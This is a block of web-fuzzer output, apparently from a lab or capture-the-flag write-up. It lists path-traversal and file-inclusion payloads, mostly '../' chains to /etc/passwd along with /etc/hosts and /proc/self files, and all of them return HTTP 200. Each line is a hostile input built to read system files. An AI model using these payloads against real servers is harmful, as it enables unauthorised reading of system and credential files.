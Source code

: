 ```bash
000000249:   200        19 L     103 W      767 Ch      "/etc/netconfig"                                                                                                             
000000253:   200        38 L     54 W       1982 Ch     "/./././././././././././etc/passwd"                                                                                          
000000254:   200        38 L     54 W       1982 Ch     "/../../../../../../../../../../etc/passwd"                                                                                  
000000257:   200        38 L     54 W       1982 Ch     "/etc/passwd"                                                                                                                
000000129:   200        1 L      7 W        70 Ch       "/etc/apt/sources.list"                                                                                                      
000000264:   200        38 L     54 W       1982 Ch     "../../../../../../../../../../../../../../../../etc/passwd"                                                                 
000000274:   200        38 L     54 W       1982 Ch     "../../../../../../etc/passwd"                                                                                               
000000208:   200        10 L     57 W       411 Ch      "/etc/hosts.allow"                                                                                                           
000000260:   200        38 L     54 W       1982 Ch     "../../../../../../../../../../../../../../../../../../../../etc/passwd"                                                     
000000266:   200        38 L     54 W       1982 Ch     "../../../../../../../../../../../../../../etc/passwd"                                                                       
000000276:   200        38 L     54 W       1982 Ch     "../../../../etc/passwd"                                                                                                     
000000268:   200        38 L     54 W       1982 Ch     "../../../../../../../../../../../../etc/passwd"                                                                             
000000273:   200        38 L     54 W       1982 Ch     "../../../../../../../etc/passwd"                                                                                            
000000269:   200        38 L     54 W       1982 Ch     "../../../../../../../../../../../etc/passwd"                                                                                
000000275:   200        38 L     54 W       1982 Ch     "../../../../../etc/passwd"                                                                                                  
000000261:   200        38 L     54 W       1982 Ch     "../../../../../../../../../../../../../../../../../../../etc/passwd"                                                        
000000267:   200        38 L     54 W       1982 Ch     "../../../../../../../../../../../../../etc/passwd"                                                                          
000000205:   200        9 L      26 W       234 Ch      "/etc/hosts"                                                                                                                 
000000272:   200        38 L     54 W       1982 Ch     "../../../../../../../../etc/passwd"                                                                                         
000000271:   200        38 L     54 W       1982 Ch     "../../../../../../../../../etc/passwd"                                                                                      
000000263:   200        38 L     54 W       1982 Ch     "../../../../../../../../../../../../../../../../../etc/passwd"                                                              
000000270:   200        38 L     54 W       1982 Ch     "../../../../../../../../../../etc/passwd"                                                                                   
000000265:   200        38 L     54 W       1982 Ch     "../../../../../../../../../../../../../../../etc/passwd"                                                                    
000000262:   200        38 L     54 W       1982 Ch     "../../../../../../../../../../../../../../../../../../etc/passwd"                                                           
000000209:   200        17 L     111 W      711 Ch      "/etc/hosts.deny"                                                                                                            
000000509:   200        0 L      0 W        0 Ch        "/proc/self/status"                                                                                                          
000000508:   200        0 L      0 W        0 Ch        "/proc/self/environ"                                                                                                         
000000507:   200        0 L      0 W        0 Ch        "/proc/self/cmdline"                                                                                                         
000000499:   200        0 L      0 W        0 Ch        "/proc/loadavg"                                                                                                              
000000498:   200        0 L      0 W        0 Ch        "/proc/interrupts"                                                                                                           
000000502:   200        0 L      0 W        0 Ch        "/proc/net/arp"                                                                                                              
```
